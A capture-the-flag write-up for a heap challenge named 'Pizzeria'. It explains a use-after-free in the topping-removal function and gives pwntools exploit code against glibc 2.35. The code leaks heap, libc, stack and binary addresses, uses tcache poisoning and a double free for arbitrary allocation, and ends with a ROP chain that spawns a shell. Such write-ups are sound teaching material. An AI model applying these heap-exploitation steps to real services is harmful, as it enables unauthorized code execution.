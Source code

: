 # Pizzeria
```
 ____    _                        _ 
|  _ \  | |      __ _  _ __    __| |
| |_) | | |     / _` || '_ \  / _` |
|  _ <  | |___ | (_| || | | || (_| |
|_| \_\ |_____| \__,_||_| |_| \__,_|

 ____   _                        _        
|  _ \ (_) ____ ____  ___  _ __ (_)  __ _ 
| |_) || ||_  /|_  / / _ \| '__|| | / _` |
|  __/ | | / /  / / |  __/| |   | || (_| |
|_|    |_|/___|/___| \___||_|   |_| \__,_|

Choose one of the following options:
1. Add topping
2. Customize topping
3. Remove topping
4. Verify toppings
5. Bake Pizza
Enter your choice : 
```

This challenge is a pizza-topping picker. It contains a list of allowed toppings:
- Tomato, Onion, Capsicum, Corn, Mushroom, Pineapple, Olives, Double Cheese, Paneer, Chicken

And it lets you add a chosen quantity (up to 63) of any one of these toppings:
```
Enter your choice : 1

Which topping ?
Tomato
How much ?
8
Ok, adding Tomato
```

You can customize your toppings, which lets you edit its contents:
```
Enter your choice : 2

Which one to customize ?
Tomato
Enter new modified topping : San Marzano
New topping added successfully !
```

You can check the contents of a topping:
```
Enter your choice : 4

Which topping to verify ?
Tomato
San Marzano
```

And you can remove toppings:
```
Enter your choice : 3

Which topping to remove ?
Tomato
Tomato removed successfully !
```

Lastly, you can leave:
```
Enter your choice : 5

Baking ....
Here it is : 🍕
```
# How it works
"Toppings" are just strings allocated with `malloc`. Adding means allocating, removing means freeing, customizing means reading and verifying means writing. Leaving frees all the toppings and exits (doesn't return).
Each topping is a `char[]` with size `8*input_size`, and the max `input_size` is 63, so the biggest chunk you can get is 0x200.

Toppings are stored on the stack along with their sizes and with the list of allowed toppings, like this:
```c
int sizes[10];
char* allocated_toppings[10];
char* allowed_toppings[10];
```
# Vulnerability
Here's a simplified view of the `remove_topping` function:
```c
void remove_topping(char** allocated_toppings, char** allowed_toppings, int* sizes) {
    char chosen_topping[15];
    int idx;

    puts("Which topping to remove ?");
    fgets(chosen_topping, 15, stdin);
    chosen_topping[strcspn(chosen_topping, "\n")] = 0;
    idx = get_index(chosen_topping, allowed_toppings);
    free(allocated_toppings[idx]);
    sizes[idx] = 0;
    printf("%s removed successfully !\n", allowed_toppings[idx]);
}
```

It doesn't set `allocated_toppings[idx]` to `NULL`, meaning we can keep using that topping even though it's now a freed chunk. This is a UAF (User After Free).

The binary has all protections turned on and uses libc 2.35.
# Attack
We can allocate a chunk, free it, and then read it to leak the heap via a tcache forward pointer:
```python
io = conn()

malloc(io, toppings[0], 63)
free(io, toppings[0])
heap = u64(read(io, toppings[0]).ljust(8, b'\0')) << 12
aleak("heap", heap)
```

The biggest chunk size we can have is 0x200, which fits in the tcache but not in the fastbin, so if we fill the tcache and free another chunk, it'll end up in the unsorted bin giving us a libc leak:
```python
for i in range(7): malloc(io, toppings[i], 63)
malloc(io, toppings[7], 63)
malloc(io, toppings[8], 63) # barrier to avoid top chunk consolidation
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])

libc.address = u64(read(io, toppings[7]).ljust(8, b'\0')) - (libc.sym.main_arena+96)
aleak("libc", libc.address)
```

We can also do a double free, first filling the tcache, then triggering the double free, and then empty the tcache and allocate again, which will move the chunks from the fastbin to the tcache. This lets us have the same chunk both allocated and freed at the same time, letting us overwrite its tcache forward pointer and achieve arbitrary allocation.

We can actually use this to achieve infinite arbitrary allocations; to understand how here's what the tcache really is (simplified):
```c
struct tcache {
    uint16_t bin_counters[N_BINS];
    void*    first_chunk [N_BINS];
};
```

If you run `bins` via pwndbg to check the tcache, you'll see something like this:
```c
tcachebins
0x60  [  2]: 0x55705a2bf280 —▸ 0x55705a2bf220
0x200 [  7]: 0x55705a2beea0 —▸ 0x55705a2beca0 —▸ 0x55705a2beaa0 —▸ 0x55705a2be8a0 —▸ 0x55705a2be6a0 —▸ 0x55705a2be4a0 —▸ 0x55705a2be2a0 ◂— 0x0
```

That counter in the \[brackets\] and the first pointer (leftmost) are taken straight from that struct. And the first pointer, unlike the next ones, is NOT mangled.
Knowing this, if we allocate on top of this struct we'll be able to modify the counters and pointers by just editing our topping, so we can just set all the counters to a high number and keep setting the pointer to wherever we wanna go.

I don't need that many allocations, and modifying the counters makes the exploit a little bit more complicated, so i chose to allocate onto the pointer for the 0x200 chunks, since its counter was 7 from when I leaked libc and that's enough allocations to finish the exploit:
```python
addr = (heap + 0x180) ^ ((heap + 0x1000) >> 12)

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
malloc(io, toppings[8], 10)
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])
free(io, toppings[7])

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
edit(io, toppings[7], p64(addr))
malloc(io, toppings[8], 10)
malloc(io, toppings[9], 10)
malloc(io, toppings[9], 10) # now we can modify this chunk with any address we want to allocate
```

Now I allocated a chunk onto `environ` to leak the stack:
```python
edit(io, toppings[9], p64(libc.sym.environ))
malloc(io, toppings[0], 63)
stack = u64(read(io, toppings[0]).ljust(8, b'\0'))
aleak("stack", stack)
```

And onto some pointer to the binary on the stack to leak the binary's base:
```python
pie_ret = stack - 0x188
edit(io, toppings[9], p64(pie_ret))
malloc(io, toppings[0], 63)
exe.address = u64(read(io, toppings[0]).ljust(8, b'\0')) - 0x23db
aleak("exe", exe.address)
```

I used one of the allowed toppings' strings to leak the binary's base, which fucked the next one up (it seems that malloc sets `*(chunk_addr+8)` to 0), so I had to fix it or the binary would crash:
```python
edit(io, toppings[0], flat(exe.address + 0x23db, exe.address + 0x23e2))
```

Both canaries and return pointers are at non-16 aligned addresses, so I couldn't just allocate onto them. I decided to allocate onto the list of allocated toppings to have infinite and truly arbitrary allocations:
```python
edit(io, toppings[9], p64(stack - 0x1d8))
malloc(io, toppings[8], 63)
```

The `bake_pizza` function doesn't actually `return`, it just calls `exit`, so I chose to allocate onto `customize_topping`'s return pointer, that way it would return right after my edit. And i overwrote it with a rop chain:
```python
edit(io, toppings[8], p64(stack-0x220))
rop = ROP([exe, libc])
rop.raw(rop.ret)
rop.system(libc.binsh())
edit(io, toppings[0], rop.chain())
```

And BOOM 💥 we've popped a shell!
Really nice challenge, I enjoyed it very much.